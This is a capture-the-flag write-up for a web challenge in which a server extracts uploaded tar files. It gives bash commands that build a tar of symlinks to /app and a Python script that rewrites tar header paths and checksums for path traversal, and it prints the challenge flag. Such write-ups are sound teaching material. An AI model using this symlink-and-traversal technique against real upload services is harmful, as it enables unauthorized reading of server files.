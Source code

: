 ```yaml
---
created: 2024-08-04T06:05
updated: 2024-08-05T19:05
points: 478
navigation: false
solves: 119
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`, which means we have to make a link under `/app/uploads/` that will point to `/app/`. (and not under `/app/uploads/0123/aaa`)

## Payload

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
```

After patching the path and checksum I got... Internal error.

Running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply write to `/app/aaa.tar` as well.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## Execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## Auto tar checksum/path patcher

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```
